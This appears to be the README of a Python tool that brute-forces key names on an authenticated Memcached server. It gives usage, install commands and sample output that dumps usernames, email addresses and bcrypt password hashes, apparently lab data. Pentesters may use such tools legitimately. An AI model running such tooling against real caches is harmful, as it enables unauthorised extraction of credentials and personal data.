 # Authenticated Memcached Keys Brutforce Script

Script is used to Bruteforce Keys Memcached service supporting Binary Protocol 

Expected outcome: Discover Keys and there Values on Memcached service

Intended only for educational and testing in corporate environments.

This Script was tested on Python 3.8.6

### Usage

```shell
cfx:  ~/Memcached_bruteforce 
→ ./keys_brute.py -h
usage: keys_brute.py [-h] [-l HOST] [-u USERNAME] [-p PASSWORD] [-w WORDLIST]

Authenticated Memcached Key Bruteforce Script by ColdFusionX

optional arguments:
  -h, --help            show this help message and exit
  -l HOST, --host HOST  Connection to Host -> IP:PORT (Example: 127.0.0.1:11211)
  -u USERNAME, --username USERNAME
                        Username
  -p PASSWORD, --password PASSWORD
                        Password
  -w WORDLIST, --wordlist WORDLIST
                        Bruteforce Dictionary

Script Usage : 
./keys_brute.py -l 127.0.0.1:11211 -u username -p password -w wordlist.txt

```
- Make sure Python3 is installed with following additional modules:

### Additional required Python modules :
- bmemcached
- pwn

Installation:
```shell
pip3 install pwn
pip3 install python-binary-memcached
```
### Proof of Concept :

This exploit expects four user inputs :
- **Host** - Connection to Host -> IP:PORT (Example: 127.0.0.1:11211)
- **Username** - Memcached Username
- **Password** - Memcached Password
- **Wordlist** - Dictionary for Bruteforce

#### Expected Output :

```shell
cfx:  ~/Memcached_bruteforce
→ ./keys_brute.py -l 127.0.0.1:11211 -u cold -p password -w dictionary.txt

[*] Initiating Keys Bruteforce

[*] Key -> username
[+] Magnus
    Shockwave
    Optimus

[*] Key -> email
[+] Magnus@autobots.cy
    Shockwave@decepticons.cy
    Optimus@prime.cy

[*] Key -> password
[+] $2y$12$Vz8Z4adaLo3uKGaLpHa0IeuER15KtM0hAZuNy06OzCfThUD0gaFES
    $2y$12$2nmCPrn67.GdgjjBgE1q1.Y6B2sXICIHy3wTpib3O9OIQyfr/j/LO
    $2y$12$Gmiv7J69Xkh4ObQKhCbQ9uV6IWEvsAoMRp.kLzkrV8NO.WLT.ooUq 

```

### Reference

https://pypi.org/project/python-binary-memcached/

https://github.com/memcached/memcached/wiki/BinaryProtocolRevamped





